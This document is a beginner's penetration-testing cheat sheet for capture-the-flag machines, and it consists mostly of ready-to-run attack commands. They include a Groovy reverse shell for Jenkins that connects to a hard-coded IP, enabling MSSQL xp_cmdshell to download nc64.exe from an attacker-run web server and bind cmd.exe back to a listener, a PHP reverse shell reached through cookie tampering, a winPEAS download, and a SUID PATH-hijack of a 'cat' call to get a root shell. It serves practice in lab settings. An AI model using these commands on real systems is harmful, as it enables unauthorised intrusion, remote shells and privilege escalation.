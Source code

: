 # Beginner Pentest Workbook
## Capture the Flag (most common steps, getting started)

# NMAP

nmap -sC -sV {TARGET}

nmap -sC -Pn {TARGET} -- no host discovery


# GOBUSTER

gobuster dir --url {TARGET} --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

# Jenkins

## Groovy Reverse Shell

String host="10.10.15.80";
int port=8000;
String cmd="/bin/bash";
//all below is supposed to be sent in one line
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(), so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); 


# Netcat cmd to listen to the port

nc -lvnp 8000

# SMB - Server machine block

smbclient -L {TARGET} -U Administrator
List the directories

smbclient \\\\{TARGET}\\{DIR} -U Administrator

Access the dir.

smbclient -N -L \\\\{TARGET_IP}\\
-N : No password
-L : This option allows you to look at what services are available on a server


# Impacket

## mssqlclient.py

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

prompt the password we discovered

C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline>console history


python3 psexec.py administrator@{TARGET}
connect to admin account > password needed

### Useful links

https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

## Commands to allow xp_cmdshell on Windows server

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

SQL> xp_cmdshell "whoami"

### Run this on your attacker machine

http.server to upload the netcat executable:
sudo python3 -m http.server 80

netcat on another tty to listen
sudo nc -lvnp 443

### Useful link
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads"

xp_cmdshell "powershell -c pwd"

wget to get on your attacker VM the nc64 executable
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{YOUR_IP}/nc64.exe -outfile nc64.exe"

Now, we can bind the cmd.exe through the nc to our listener:
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {YOUR_IP} 443"


# winPEAS

### Useful link

https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe

On your attacker machine:
python3 -m http.server 80

On the target machine 

powershell
wget http://{YOUR_IP}/winPEASx64.exe -outfile winPEASx64.exe


# Information Disclosure -- Cookies

Example:

http://{TARGET}/cdn-cgi/login/admin.php?content=accounts&id= {CHANGE ID to test for some Info gathering}

Change cookie, example:

role => admin
id => 34322

So we get the access to upload folder

nc -lvnp {PORT} -- port we set on the reverse shell

http://{target}/uploads/php-reverseshell.php

Functional shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

### Common paths

You need to be used to Linux so try to find more privileged users who you can exploit and escalate privileges.
Example we find user jason, so we try to find a way to get into it

su jason > it will prompt you to type the password,
cat * | grep -i passw*
try to find anything useful as passwd or passwords, no case sensitive -i flag on grep will get Password or anything like this.

id
uid=1000(jason) gid=1000(jason) groups=1000(jason),1001(bugtracker)

find / -group bugtracker 2>/dev/null
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

this file has a SUID > root

SUID 

SUID (Set owner User ID), the special permission for the user access
level has a single function: A file with SUID always executes as the user who owns the
file, regardless of the user passing the command. If the file owner doesn't have
execute permissions, then use an uppercase S here.

### Let's try to exploit it

bugtracker 
> prompts you to type bug ID
try anything,
it will get you the error:

cat: /root/reports/12: No such file or directory

So, it is using the command cat to fetch files

This is exploitable

cd /tmp
echo "/bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH

NB: put /tmp before $PATH so the shell will search for cat on our directory first

now execute bugtracker and type: anything on the prompt

you will get inside the /bin/sh as root.
